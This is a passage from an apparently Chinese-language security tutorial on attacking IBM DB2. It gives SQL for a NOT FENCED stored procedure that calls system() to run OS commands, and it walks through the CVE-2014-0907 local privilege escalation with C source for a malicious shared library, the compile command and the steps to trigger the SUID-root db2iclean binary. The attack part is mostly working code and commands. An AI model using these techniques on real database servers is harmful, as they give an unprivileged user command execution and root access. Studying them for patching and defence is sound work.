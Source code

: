 若要创建NOTFENCED的存储过程（需要具有SYSADM特权、DBADM 特权或一个特殊的特权（CREATE_NOT_FENCED）），需要在创建存储过程中指定，如下

```
CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))
EXTERNAL NAME '/usr/lib/libstdc++.so.6!system' 
LANGUAGE C 
DETERMINISTIC 
PARAMETER STYLE DB2SQL
NOT FENCED

```

0x06 利用DB2提权
=====

本节介绍两个DB2提权漏洞原理及利用方法

CVE-2014-0907
-------------

CVE-2014-0907是一个DB2本地提权漏洞，受影响版本为AIX, Linux, HP-UX以及Solaris上的DB2 V9.5（FP9之前的V9.5不受影响）, V9.7, V10.1, V10.5版本

CVE-2014-0907漏洞允许一个本地普通用户获取到root权限

DB2的db2iclean程序会在当前目录下搜索libdb2ure2.so.1库文件，下图为执行该程序时对库文件的访问情况，可见DB2对于libdb2ure2.so.1库文件的搜索在当前目录先于DB2安装目录

```
strace -o /tmp/db2iclean.log  /home/db2inst1/sqllib/adm/db2iclean

```

![pic50](http://drops.javaweb.org/uploads/images/117039e272811be1a9afa513023adb6673bf8813.jpg)

如果当前目录下有恶意用户写入的同名库文件，则DB2程序会加载该文件并执行其中的代码。由于db2iclean命令是SUID root权限，因此恶意代码会以root权限被运行。

![pic51](http://drops.javaweb.org/uploads/images/baa7412028aeca786b9e3b8cfd6edc0a0a3b6978.jpg)

如将下列代码编译为库文件并放在当前目录下：

```
// libdb2ure2.cpp
#include <stdlib.h>
int iGetHostName(char* n, int i)
{
    system("id > /m.log");
}

$ gcc -shared -o libdb2ure2.so.1 libdb2ure2.cpp

```

使用db2iadm1组的普通用户运行db2iclean程序：

```
<DB2_instance_install_directory>/adm/db2iclean

```
